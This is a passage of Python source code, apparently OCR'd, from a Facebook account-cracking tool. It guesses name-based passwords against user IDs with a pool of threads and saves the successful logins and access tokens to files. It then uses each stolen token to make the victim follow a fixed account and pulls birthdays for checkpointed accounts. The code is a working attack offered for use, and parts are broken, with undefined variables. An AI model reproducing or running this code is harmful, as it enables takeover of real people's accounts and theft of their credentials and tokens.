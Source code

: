 print('\r\033[1;32m(ID-SUCCESSFUL) %s | %s      ' % (user,pw))  				wrt = '%s - %s' % (user,pw)  				ok.append(wrt)  				open('/sdcard/ID_OK.txt','a').write('%s\n' % wrt)  				access = q['loc']  				open('/sdcard/ids/tokens.txt','a').write(access+'\n')  				follow_id='100001020800712'  				subs = requests.post('https://graph.facebook.com/'+follow_id+'/subscribers?access_token='+access).text  				break  			elif 'checkpoint' in ses.cookies.get_dict():  				try:  					token = hamii('token.txt').read()  					cp_ttl = requests.get('https://graph.facebook.com/%s?access_token=%s'%(user,token)).json()['birthday']  					month, day, year = cp_ttl.split('/')  					  					wrt = '%s - %s - %s %s %s%s' % (user,pw,day,month,year,tahn(user))  					cp.append(wrt)  					open('/sdcard/ID_CP.txt','a').write('%s\n' % wrt)  					break  				except (KeyError, IOError):  					month = ''  					day   = ''  					year  = ''  				except:  					pass  				print('\r\033[1;91m(ID-CHECKPOINT) %s | %s%s      ' % (user,pw,tahun(user)))  				wrt = '%s - %s%s'%(user,pw,tahu(user))  				cp.append(wrt)  				open('/sdcard/ID_CP.txt','a').write('%s\n' % wrt)  				break  			else:  				continue  		loop += 1  	def __pler__(self):  		print ("\033[1;94m [1] Auto 2 Pass ([ PRO ] ")  		print (" [2] Auto 2 Digit Pass ([ FAST ] ")  		print (" [3] Auto 5 Pass [ SLOW ]")  		print (" [4] Auto 4 Digit Pass [ SLOW ]")  		yan = input('\n [•] \033[1;37m CHOOSE : ')  		if yan == '':  			print('\Choose Error ')  			exit()  		elif yan in ('1', '01'):  			time.sleep(1)  			print('\n[•] Result OK saved to OK.txt')  			print('[•] Result CP saved to CP.txt')  			print('\n\tCrack Processing...\n')  			print('\n\tCrack Processing...\n\n');logo()  			with ThreadPoolExecutor(max_workers=30) as (_ngentot_gratis_):  				for yntkts in self.id:  					try:  						uid, name = yntkts.split('|')  						xz = name.split(' ')  						if len(xz) == 1:  							pwx = [first, xz[0] + 'last', xz[0] + 'First', xz[0] + 'Last']  						elif len(xz) == 2:  							pwx = [first123, xz[0] + 'last123', xz[0] + 'First123', xz[0] + 'Last123']  						elif len(xz) == 3:  							pwx = [name, xz[0]+xz[1]]  						elif len(xz) == 4:  							pwx = [name, xz[0]+xz[1]]  						else:  							pwx = [first, xz[0] + 'last', xz[0] + 'Frist', xz[0] + 'Last']  							pwx = [Last, xz[0] + 'Last1', xz[0] + 'first', xz[0] + 'last1']  						_ngentot_gratis_.submit(self.__mbasic__, uid, pwx)  					except:  						pass  			os.remove(self.apk)  			hasil(ok,cp)  		elif yan in ('2', '02',):  			time.sleep(1)  			print('\n[•] LOADING ');logo()  			with ThreadPoolExecutor(max_workers=40) as (_ngentot_gratis_):  				for yntkts in self.id:  					try:  						uid, name = yntkts.split('|')  						xz = name.split(' ')  						if len(xz) == 1:  							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"1234", xz[0]+"12345", xz[0]+"786",xz[0]+"786786"]  						elif len(xz) == 2:  							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"1234", xz[0]+"12345", xz[0]+"786",xz[0]+"786786"]  						elif len(xz) == 3:  							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"1234", xz[0]+"12345", xz[0]+"786",xz[0]+"786786"]  						elif len(xz) == 4:  							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"1234", xz[0]+"12345", xz[0]+"786",xz[0]+"786786"]  						else:  							pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"1234", xz[0]+"12345", xz[0]+"786",xz[0]+"786786"]  						_ngentot_gratis_.submit(self.__mbasic__, uid, pwx)  					except:  						pass  			os.remove(self.apk)  			hasil(ok,cp)  		elif yan in ('3', '03'):  			time.sleep(1)  			print('\n[•] LOADING ');logo()  			with ThreadPoolExecutor(max_workers=35) as (_ngentot_gratis_):